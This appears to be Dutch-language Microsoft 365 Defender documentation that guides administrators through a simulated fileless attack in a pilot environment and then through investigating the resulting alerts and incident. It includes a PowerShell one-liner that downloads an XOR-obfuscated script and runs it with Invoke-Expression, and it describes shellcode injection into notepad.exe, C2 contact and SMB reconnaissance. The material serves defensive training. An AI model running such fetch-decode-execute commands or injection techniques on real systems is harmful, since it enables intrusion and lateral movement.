

# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a>Een aanvalssimulatie uitvoeren in een Microsoft 365 Defender testomgeving


Dit artikel is [stap 1 van 2](eval-defender-investigate-respond.md) in het proces van het uitvoeren van een onderzoek en de reactie van een incident in Microsoft 365 Defender met behulp van een testomgeving. Zie het [overzichtsartikel](eval-defender-investigate-respond.md) voor meer informatie over dit proces.

Nadat u de testomgeving hebt [voorbereid,](eval-defender-investigate-respond.md)is het tijd om de incidentrespons en de geautomatiseerde onderzoeks- en herstelmogelijkheden van Microsoft 365 Defender te testen door een incident te maken met een gesimuleerde aanval en de Microsoft 365 Defender-portal te gebruiken om te onderzoeken en te reageren.

Een incident in Microsoft 365 Defender is een verzameling van gecorreleerde waarschuwingen en bijbehorende gegevens die het verhaal van een aanval bevatten.

Microsoft 365 services en apps maken waarschuwingen wanneer ze een verdachte of schadelijke gebeurtenis of activiteit detecteren. Afzonderlijke waarschuwingen geven waardevolle aanwijzingen over een voltooide of lopende aanval. Aanvallen gebruiken echter meestal verschillende technieken voor verschillende typen entiteiten, zoals apparaten, gebruikers en postvakken. Het resultaat is meerdere waarschuwingen voor meerdere entiteiten in uw tenant.

>[!Note]
>Als u nog niet bekend bent met beveiligingsanalyse en incidentrespons, bekijkt u de [walkthrough](first-incident-overview.md) Reageren op uw eerste incident om een rondleiding te krijgen over een typisch proces van analyse, herstel en beoordeling na incidenten.
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a>Aanvallen simuleren met de Microsoft 365 Defender portal

De Microsoft 365 Defender portal heeft ingebouwde mogelijkheden om gesimuleerde aanvallen op uw testomgeving te maken:

- Attack simulation training for Microsoft 365 Defender for Office 365 at [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) .
  
  Selecteer in Microsoft 365 Defender portal **E-mail & samenwerking > Training voor de aanvalssimulatie**.

- Zelfstudies voor aanvallen & voor Microsoft 365 Defender eindpunten op [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) .

  Selecteer in Microsoft 365 Defender portal Eindpunten > **zelfstudies & simulaties.**

### <a name="defender-for-office-365-attack-simulation-training"></a>Defender voor Office 365 Training voor aanvalssimulatie

Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for Office 365 Plan 2 includes attack simulation training for phishing attacks. De basisstappen zijn:

1. Een simulatie maken

   Zie Een phishing-aanval simuleren voor stapsgewijs instructies over het maken en verzenden van een nieuwe [simulatie.](/microsoft-365/security/office-365-security/attack-simulation-training)

2. Een payload maken

   Zie Een aangepaste payload maken voor de trainingstraining aanvalssimulatie voor stapsgewijs instructies over het maken van een payload voor gebruik in [een simulatie.](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)

3. Inzichten verkrijgen

   Zie Inzichten verkrijgen via de trainingstraining Aanvalssimulatie voor [stapsgewijs](/microsoft-365/security/office-365-security/attack-simulation-training-insights)instructies over het verkrijgen van inzichten met rapportage.

Zie Simulaties voor [meer informatie.](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a>Defender for Endpoint attack tutorials & simulations

Hier zijn de Defender voor eindpuntsimulaties van Microsoft:

- Backdoor van document valt
- Geautomatiseerd onderzoek (backdoor)

Er zijn extra simulaties van Attack IQ en SafeBreach. Er zijn ook een reeks zelfstudies.

Voor elke simulatie of zelfstudie:

1. Download en lees het bijbehorende doorloopdocument dat bij de geselecteerde simulatie of het geselecteerde scenario is geleverd.

2. Download het simulatiebestand. U kunt ervoor kiezen om het bestand of script te downloaden op het testapparaat, maar dit is niet verplicht.

3. Voer het simulatiebestand of script uit op het testapparaat, zoals wordt geïnstrueerd in het doorloopdocument.

 Zie Experience [Microsoft Defender for Endpoint through simulated attack (Microsoft Defender for Endpoint through simulated attack) voor meer informatie.](/microsoft-365/security/defender-endpoint/attack-simulations)

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a>Een aanval simuleren met een geïsoleerd domeincontroller en clientapparaat (optioneel)

In deze optionele incidentresponsoefening simuleert u een aanval op een geïsoleerde AD DS-domeincontroller (Active Directory Domain Services) en Windows 10-apparaat met behulp van een PowerShell-script en onderzoekt, herstelt en lost u het incident op.

Eerst moet u eindpunten toevoegen aan uw testomgeving.

### <a name="add-pilot-environment-endpoints"></a>Testomgeving-eindpunten toevoegen

Eerst moet u een geïsoleerde AD DS-domeincontroller en een Windows 10 toevoegen aan uw testomgeving.

1. Controleer of de tenant voor de testomgeving [de](m365d-enable.md#confirm-that-the-service-is-on)Microsoft 365 Defender.

2. Controleer of uw domeincontroller:

   - Wordt Windows Server 2008 R2 of een nieuwere versie uitgevoerd.
   - Rapporteert [aan Microsoft Defender voor identiteit en](/azure/security-center/security-center-wdatp) heeft extern beheer [ingeschakeld.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Is [Microsoft Defender voor identiteit en Microsoft Cloud App Security ingeschakeld.](/cloud-app-security/mdi-integration)
   - Heeft een testgebruiker is gemaakt in het testdomein. Beheerdersmachtigingen zijn niet nodig.

3. Controleer of uw testapparaat:

   - Wordt Windows 10 versie 1903 of een latere versie uitgevoerd.
   - Is verbonden met het domein van de AD DS-domeincontroller.
   - Is [Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) ingeschakeld. Als u problemen hebt met het inschakelen van Windows Defender Antivirus, bekijkt u dit [probleemoplossingsonderwerp.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
   - Is [onboarded to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Als u tenant- en apparaatgroepen gebruikt, maakt u een speciale apparaatgroep voor het testapparaat en drukt u deze op het hoogste niveau.

Een alternatief is om uw AD DS-domeincontroller en testapparaat te hosten als virtuele machines in Microsoft Azure infrastructuurservices. U kunt de instructies in [fase 1](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)van de gesimuleerde testlaborator voor ondernemingen gebruiken, maar het maken van de virtuele APP1-machine overslaan.

Hier is het resultaat.


U simuleert een geavanceerde aanval die gebruik maakt van geavanceerde technieken om te verbergen voor detectie. Met de aanval worden geopende SMB-sessies (Server Message Block) op domeincontrollers opgeslagen en worden recente IP-adressen van apparaten van gebruikers opgehaald. Deze categorie aanvallen bevat meestal geen bestanden die zijn gedropt op het apparaat van het slachtoffer en ze komen alleen in het geheugen voor. Ze 'leven van het land' door bestaande systeem- en beheerhulpmiddelen te gebruiken en hun code in systeemprocessen te injecteren om hun uitvoering te verbergen. Met dergelijke gedragingen kunnen ze detectie vermijden en blijven ze op het apparaat.

In deze simulatie begint ons voorbeeldscenario met een PowerShell-script. In de echte wereld kan een gebruiker worden misleid in het uitvoeren van een script of kan het script worden uitgevoerd vanaf een externe verbinding met een andere computer vanaf een eerder geïnfecteerd apparaat, wat aangeeft dat de aanvaller lateraal probeert te verplaatsen in het netwerk. Detectie van deze scripts kan lastig zijn omdat beheerders ook vaak scripts op afstand uitvoeren om verschillende beheeractiviteiten uit te voeren.


Tijdens de simulatie injecteert de aanval shellcode in een schijnbaar onschuldig proces. Voor het scenario is het gebruik van notepad.exe. We hebben dit proces gekozen voor de simulatie, maar aanvallers zouden zich waarschijnlijk richten op een langlopende systeemprocedure, zoals svchost.exe. De shellcode gaat vervolgens verder met het contact opnemen met de C2-server (Command-and-Control) van de aanvaller om instructies te ontvangen over hoe u verder kunt gaan. Met het script wordt geprobeerd verkenningsquery's uit te voeren op de domeincontroller (DC). Met Verkenning kan een aanvaller informatie krijgen over recente aanmeldingsgegevens van gebruikers. Zodra aanvallers deze informatie hebben, kunnen ze lateraal in het netwerk naar een specifiek gevoelig account gaan

> [!IMPORTANT]
> Voor optimale resultaten volgt u de instructies voor de aanvalssimulatie zo goed mogelijk.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>De geïsoleerde AD DS-domeincontroller-aanvalssimulatie uitvoeren

De scenariosimulatie van het aanvalsscenario uitvoeren:

1. Zorg ervoor dat uw testomgeving de geïsoleerde AD DS-domeincontroller en het Windows 10 bevat.

2. Meld u aan bij het testapparaat met het testgebruikersaccount.

3. Open een Windows PowerShell op het testapparaat.

4. Kopieer het volgende simulatiescript:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Als u dit artikel opent in een webbrowser, kunt u problemen ondervinden bij het kopiëren van de volledige tekst zonder bepaalde tekens te verliezen of extra regel-onderbrekingen te introduceren. Als dit het geval is, downloadt u dit document en opent u het op Adobe Reader.

5. Plak en voer het gekopieerde script uit in het PowerShell-venster.

> [!NOTE]
> Als u PowerShell gebruikt met RDP (Remote Desktop Protocol), gebruikt u de opdracht Klembordtekst typen in de RDP-client omdat de sneltoets **Ctrl-V** of de methode voor het plakken met de rechtermuisknop mogelijk niet werkt. Recente versies van PowerShell accepteren deze methode soms ook niet, mogelijk moet u eerst kopiëren naar Kladblok in het geheugen, deze kopiëren in de virtuele machine en deze vervolgens in PowerShell plakken.

Een paar seconden later wordt Kladblok app geopend. Er wordt een gesimuleerde aanvalscode in de Kladblok. Houd het automatisch gegenereerde Kladblok geopend om het volledige scenario te kunnen ervaren.

De gesimuleerde aanvalscode probeert te communiceren met een extern IP-adres (de C2-server simuleren) en probeert vervolgens via SMB een verkenningspoging te doen tegen de domeincontroller.

Dit bericht wordt weergegeven op de PowerShell-console wanneer dit script is voltooid:

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Als u de functie Automatisch incident en antwoord in actie wilt zien, houdt u het notepad.exe geopend. U ziet Automatisch incident en antwoord stoppen met het Kladblok proces.

### <a name="investigate-the-incident-for-the-simulated-attack"></a>Het incident voor de gesimuleerde aanval onderzoeken

> [!NOTE]
> Voordat we u door deze simulatie leiden, bekijkt u de volgende video om te zien hoe incidentbeheer u helpt de gerelateerde waarschuwingen samen te delen als onderdeel van het onderzoeksproces, waar u deze kunt vinden in de portal en hoe het u kan helpen bij uw beveiligingsbewerkingen:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Als u overschakelt naar het standpunt van de SOC-analist, kunt u nu beginnen met het onderzoeken van de aanval in de Microsoft 365 Defender portal.

1. Open de [Microsoft 365 Defender portal](https://security.microsoft.com/).

2. Selecteer in het navigatiedeelvenster de optie **Incidenten & waarschuwingen > incidenten.**

3. Het nieuwe incident voor de gesimuleerde aanval wordt weergegeven in de incidentwachtrij.

    

#### <a name="investigate-the-attack-as-a-single-incident"></a>De aanval als één incident onderzoeken

Microsoft 365 Defender worden analyses gecorreleerd en worden alle gerelateerde waarschuwingen en onderzoeken van verschillende producten samengevoegd tot één incidententiteit. Op deze Microsoft 365 Defender een breder aanvalsverhaal, zodat de SOC-analist complexe bedreigingen begrijpt en beantwoordt.

De waarschuwingen die tijdens deze simulatie worden gegenereerd, worden gekoppeld aan dezelfde bedreiging en worden als gevolg hiervan automatisch samengevoegd als één incident.

Het incident weergeven:

1. Open de [Microsoft 365 Defender portal](https://security.microsoft.com/).

2. Selecteer in het navigatiedeelvenster de optie **Incidenten & waarschuwingen > incidenten.**

3. Selecteer het nieuwste item door op de cirkel links van de naam van het incident te klikken. Een zijpaneel bevat aanvullende informatie over het incident, inclusief alle gerelateerde waarschuwingen. Elk incident heeft een unieke naam die het beschrijft op basis van de kenmerken van de waarschuwingen die het bevat.

   De waarschuwingen die in het dashboard worden weergegeven, kunnen worden gefilterd op basis van servicebronnen: Microsoft Defender voor identiteit, Microsoft Cloud App Security, Microsoft Defender voor Eindpunt, Microsoft 365 Defender en Microsoft Defender voor Office 365.

3. Selecteer **De pagina Incident openen** voor meer informatie over het incident.

   Op de **pagina Incident** ziet u alle waarschuwingen en informatie over het incident. De informatie omvat de entiteiten en activa die betrokken zijn bij de waarschuwing, de detectiebron van de waarschuwingen (zoals Microsoft Defender voor identiteit of Microsoft Defender voor Eindpunt) en de reden waarom ze aan elkaar zijn gekoppeld. Als u de lijst met incidentenwaarschuwingen bekijkt, wordt de voortgang van de aanval weergegeven. In deze weergave kunt u de afzonderlijke waarschuwingen bekijken en onderzoeken.

   U kunt ook in **het rechtermenu** op Incident beheren klikken om het incident te taggen, aan uzelf toe te wijzen en opmerkingen toe te voegen.

#### <a name="review-generated-alerts"></a>Gegenereerde waarschuwingen controleren

Laten we eens kijken naar enkele waarschuwingen die tijdens de gesimuleerde aanval zijn gegenereerd.

> [!NOTE]
> We lopen door slechts een paar waarschuwingen die tijdens de gesimuleerde aanval zijn gegenereerd. Afhankelijk van de versie van Windows en de Microsoft 365 Defender producten die op uw testapparaat worden uitgevoerd, ziet u mogelijk meer waarschuwingen die in een iets andere volgorde worden weergegeven.


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a>Waarschuwing: Verdachte procesinjectie waargenomen (bron: Microsoft Defender voor eindpunt)

Geavanceerde aanvallers gebruiken geavanceerde en verborgen methoden om in het geheugen te blijven en zich te verbergen voor detectiehulpmiddelen. Een veelgebruikte techniek is om te werken vanuit een vertrouwd systeemproces in plaats van een schadelijke uitvoerbare, waardoor het moeilijk is voor detectiehulpmiddelen en beveiligingsbewerkingen om de schadelijke code te herkennen.

Om de SOC-analisten in staat te stellen deze geavanceerde aanvallen op te vangen, bieden diep geheugen sensoren in Microsoft Defender voor Eindpunt onze cloudservice een ongeëvenaarde zichtbaarheid in een verscheidenheid aan technieken voor codeinjectie voor meerdere processen. In de volgende afbeelding ziet u hoe Defender voor Eindpunt heeft gedetecteerd en gewaarschuwd bij de poging om code te <i>notepad.exe. </i>



##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a>Waarschuwing: Onverwacht gedrag waargenomen door een proces zonder opdrachtregelargumenten (Bron: Microsoft Defender voor eindpunt)

Microsoft Defender voor eindpuntdetecties zijn vaak gericht op het meest voorkomende kenmerk van een aanvalstechniek. Deze methode zorgt voor duurzaamheid en verhoogt de lat voor aanvallers om over te schakelen naar nieuwere tactieken.

We gebruiken grootschalige leeralgoritmen om het normale gedrag van gangbare processen binnen een organisatie en wereldwijd vast te stellen en te kijken wanneer deze processen afwijkende gedragingen vertonen. Deze afwijkende gedragingen geven vaak aan dat overbodige code is geïntroduceerd en wordt uitgevoerd in een anders vertrouwd proces.

In dit scenario vertoont <i>notepad.exe</i> abnormaal gedrag, waarbij communicatie met een externe locatie betrokken is. Dit resultaat is onafhankelijk van de specifieke methode die wordt gebruikt om de schadelijke code in te voeren en uit te voeren.

> [!NOTE]
> Omdat deze waarschuwing is gebaseerd op machine learning-modellen waarvoor extra back-endverwerking nodig is, kan het enige tijd duren voordat u deze waarschuwing in de portal ziet.

De waarschuwingsdetails bevatten het externe IP-adres, een indicator die u als draaipunt kunt gebruiken om het onderzoek uit te breiden.

Selecteer het IP-adres in de waarschuwingsprocesstructuur om de pagina MET IP-adresgegevens weer te geven.


In de volgende afbeelding ziet u de geselecteerde pagina MET IP-adresgegevens (klikken op IP-adres in de processtructuur Waarschuwing).


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Waarschuwing: Verkenning van gebruikers- en IP-adres (SMB) (Bron: Microsoft Defender voor identiteit)

Door een SMB-protocol (Server Message Block) te gebruiken, kunnen aanvallers recente gebruikerslogengegevens krijgen waarmee ze lateraal door het netwerk kunnen gaan om toegang te krijgen tot een specifiek gevoelig account.

In deze detectie wordt een waarschuwing geactiveerd wanneer de SMB-sessie-overzicht wordt uitgevoerd tegen een domeincontroller.


#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a>De tijdlijn van het apparaat bekijken met Microsoft Defender voor Eindpunt

Nadat u de verschillende waarschuwingen in dit incident hebt verkend, gaat u terug naar de pagina met incidenten die u eerder hebt onderzocht. Selecteer het **tabblad Apparaten** op de pagina met incidenten om de apparaten te bekijken die betrokken zijn bij dit incident, zoals gerapporteerd door Microsoft Defender voor Eindpunt en Microsoft Defender voor identiteit.

Selecteer de naam van het apparaat waarop de aanval is uitgevoerd om de entiteitspagina voor dat specifieke apparaat te openen. Op die pagina ziet u waarschuwingen die zijn geactiveerd en gerelateerde gebeurtenissen.

Selecteer het **tabblad Tijdlijn** om de tijdlijn van het apparaat te openen en alle gebeurtenissen en gedragingen op het apparaat in chronologische volgorde weer te geven, afgewisseld met de waarschuwingen die zijn opgeheven.


Het uitbreiden van een aantal interessantere gedragingen biedt nuttige details, zoals procesbomen.

Schuif bijvoorbeeld omlaag totdat u de meldingsgebeurtenis Verdachte **procesinjectie hebt waargenomen.** Selecteer de **powershell.exe** die is notepad.exe procesgebeurtenis eronder, om de volledige processtructuur voor dit gedrag weer te geven onder de grafiek **Gebeurtenis-entiteiten** in het zijdeelvenster. Gebruik de zoekbalk om zo nodig te filteren.


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a>Bekijk de gebruikersgegevens met Microsoft Cloud App Security

Selecteer op de pagina Incident het tabblad **Gebruikers** om de lijst weer te geven met gebruikers die betrokken zijn bij de aanval. De tabel bevat aanvullende informatie over elke gebruiker, inclusief de prioriteitsscore voor **onderzoek van elke** gebruiker.

Selecteer de gebruikersnaam om de profielpagina van de gebruiker te openen, waar verder onderzoek kan worden uitgevoerd. [Lees meer over het onderzoeken van risicovolle gebruikers.](/cloud-app-security/tutorial-ueba#identify)


#### <a name="automated-investigation-and-remediation"></a>Geautomatiseerd onderzoek en herstel

> [!NOTE]
>Voordat we u door deze simulatie leiden, bekijkt u de volgende video om vertrouwd te raken met wat geautomatiseerde zelfherstel is, waar u deze kunt vinden in de portal en hoe deze kan helpen bij uw beveiligingsbewerkingen:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Ga terug naar het incident in de Microsoft 365 Defender portal. Op **het tabblad Onderzoeken** op de pagina **Incident** ziet u de geautomatiseerde onderzoeken die zijn gestart door Microsoft Defender voor identiteit en Microsoft Defender voor Eindpunt. In de onderstaande schermafbeelding wordt alleen het geautomatiseerde onderzoek weergegeven dat is geactiveerd door Defender voor Eindpunt. Standaard worden in Defender voor Eindpunt automatisch de artefacten in de wachtrij gesaneerd, wat herstel vereist.


Selecteer de waarschuwing die een onderzoek heeft geactiveerd om de pagina **Details van het onderzoek te** openen. U ziet de volgende details:

- Waarschuwing(s) die het geautomatiseerde onderzoek hebben geactiveerd.
- Beïnvloede gebruikers en apparaten. Als er indicatoren worden gevonden op extra apparaten, worden deze extra apparaten ook weergegeven.
- Lijst met bewijs. De entiteiten die zijn gevonden en geanalyseerd, zoals bestanden, processen, services, stuurprogramma's en netwerkadressen. Deze entiteiten worden geanalyseerd op mogelijke relaties met de waarschuwing en beoordeeld als goedaardig of schadelijk.
- Bedreigingen gevonden. Bekende bedreigingen die tijdens het onderzoek worden gevonden.

> [!NOTE]
> Afhankelijk van de tijdsinstelling wordt het geautomatiseerde onderzoek mogelijk nog uitgevoerd. Wacht enkele minuten totdat het proces is voltooid voordat u het bewijs verzamelt en analyseert en de resultaten bekijkt. Vernieuw **de pagina Onderzoeksdetails** om de meest recente resultaten te krijgen.


Tijdens het geautomatiseerde onderzoek heeft Microsoft Defender voor Eindpunt de notepad.exe geïdentificeerd, die is geïnjecteerd als een van de artefacten die moeten worden gesaneerd. Defender voor Eindpunt stopt automatisch de verdachte procesinjectie als onderdeel van de automatische herstelprocedure.

U kunt zien <i>notepad.exe</i> verdwijnen uit de lijst met lopende processen op het testapparaat.

#### <a name="resolve-the-incident"></a>Het incident oplossen

Nadat het onderzoek is voltooid en is bevestigd dat het is opgelost, lost u het incident op.

Selecteer op **de pagina Incident** de optie Incident **beheren.** Stel de status in op **Incident oplossen** en selecteer **Waar-waarschuwing** voor de classificatie en **beveiligingstests** voor de bepaling.


Wanneer het incident is opgelost, worden alle bijbehorende waarschuwingen in Microsoft 365 Defender portal en in de gerelateerde portals opgelost.

Hiermee wordt de aanvalssimulatie voor incidentanalyse, geautomatiseerd onderzoek en incidentoplossing afgerond.

## <a name="next-step"></a>Volgende stap

[](eval-defender-investigate-respond-additional.md)

Stap 2 van 2: [Probeer Microsoft 365 Defender mogelijkheden voor incidentrespons](eval-defender-investigate-respond-additional.md)

### <a name="navigation-you-may-need"></a>Navigatie die u mogelijk nodig hebt

[De Microsoft 365 Defender evaluatieomgeving maken](eval-create-eval-environment.md)
